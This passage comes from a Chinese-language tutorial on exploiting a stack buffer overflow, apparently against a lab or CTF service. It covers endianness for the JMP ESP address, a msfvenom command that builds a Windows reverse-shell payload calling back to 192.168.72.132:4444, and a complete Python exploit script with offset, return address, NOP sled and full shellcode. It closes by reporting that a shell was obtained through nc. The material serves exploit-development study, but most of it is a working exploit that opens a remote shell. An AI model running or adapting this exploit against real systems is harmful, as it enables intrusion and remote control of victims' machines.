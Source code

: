 这里再额外提一下，计算机存储各种数据类型 (int, string, float double) 主要有两大类。第一种是小端架构另外一个就是大端架构。我还是说重点吧，由于大小端差异，在利用 JMP ESP 的时候需要反过来写并以 \x xx 这种格式。打个比方最后的 JMP ESP 地址为 \xc3\x14\x04\x08

06

_生成恶意代码_

这里呢前面已经知道了程序极限点，坏字符串，JMP ESP 了。接下来就是生成恶意代码，获得一个反弹 shell 了。可以用下面这条语句生成

命令: msfvenom -p windows/shell_reverse_tcp LHOST=192.168.72.132 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qRbeQ5oaCCaDd8u7BGLLdncelibzEtv8agJCMtLxAF6oWTJv3FWja6cA/640?wx_fmt=png)

这是最后的终极脚本, 主要是多了个 padding 要留多一点空间进行一个解压缩恶意代码。

```
import socket

offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = ("\xdb\xc0\xd9\x74\x24\xf4\x5f\x2b\xc9\xba\x07\xd4\x4a\xcb\xb1"
"\x52\x31\x57\x17\x83\xc7\x04\x03\x50\xc7\xa8\x3e\xa2\x0f\xae"
"\xc1\x5a\xd0\xcf\x48\xbf\xe1\xcf\x2f\xb4\x52\xe0\x24\x98\x5e"
"\x8b\x69\x08\xd4\xf9\xa5\x3f\x5d\xb7\x93\x0e\x5e\xe4\xe0\x11"
"\xdc\xf7\x34\xf1\xdd\x37\x49\xf0\x1a\x25\xa0\xa0\xf3\x21\x17"
"\x54\x77\x7f\xa4\xdf\xcb\x91\xac\x3c\x9b\x90\x9d\x93\x97\xca"
"\x3d\x12\x7b\x67\x74\x0c\x98\x42\xce\xa7\x6a\x38\xd1\x61\xa3"
"\xc1\x7e\x4c\x0b\x30\x7e\x89\xac\xab\xf5\xe3\xce\x56\x0e\x30"
"\xac\x8c\x9b\xa2\x16\x46\x3b\x0e\xa6\x8b\xda\xc5\xa4\x60\xa8"
"\x81\xa8\x77\x7d\xba\xd5\xfc\x80\x6c\x5c\x46\xa7\xa8\x04\x1c"
"\xc6\xe9\xe0\xf3\xf7\xe9\x4a\xab\x5d\x62\x66\xb8\xef\x29\xef"
"\x0d\xc2\xd1\xef\x19\x55\xa2\xdd\x86\xcd\x2c\x6e\x4e\xc8\xab"
"\x91\x65\xac\x23\x6c\x86\xcd\x6a\xab\xd2\x9d\x04\x1a\x5b\x76"
"\xd4\xa3\x8e\xd9\x84\x0b\x61\x9a\x74\xec\xd1\x72\x9e\xe3\x0e"
"\x62\xa1\x29\x27\x09\x58\xba\x88\x66\x2a\xbe\x61\x75\xaa\xaf"
"\x2d\xf0\x4c\xa5\xdd\x54\xc7\x52\x47\xfd\x93\xc3\x88\x2b\xde"
"\xc4\x03\xd8\x1f\x8a\xe3\x95\x33\x7b\x04\xe0\x69\x2a\x1b\xde"
"\x05\xb0\x8e\x85\xd5\xbf\xb2\x11\x82\xe8\x05\x68\x46\x05\x3f"
"\xc2\x74\xd4\xd9\x2d\x3c\x03\x1a\xb3\xbd\xc6\x26\x97\xad\x1e"
"\xa6\x93\x99\xce\xf1\x4d\x77\xa9\xab\x3f\x21\x63\x07\x96\xa5"
"\xf2\x6b\x29\xb3\xfa\xa1\xdf\x5b\x4a\x1c\xa6\x64\x63\xc8\x2e"
"\x1d\x99\x68\xd0\xf4\x19\x88\x33\xdc\x57\x21\xea\xb5\xd5\x2c"
"\x0d\x60\x19\x49\x8e\x80\xe2\xae\x8e\xe1\xe7\xeb\x08\x1a\x9a"
"\x64\xfd\x1c\x09\x84\xd4")
postfix = ""

buffer =overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect(('192.168.72.206',31337))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

然后提前开启 nc，运行脚本成功获取 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TIvrbjEWMwulKAygVnJB9qIicchoBkzAuWQ3v5Q9Nmnw0Uo4nyEib7XiauMzReyJgqiacAMN0kzNGcZw/640?wx_fmt=png)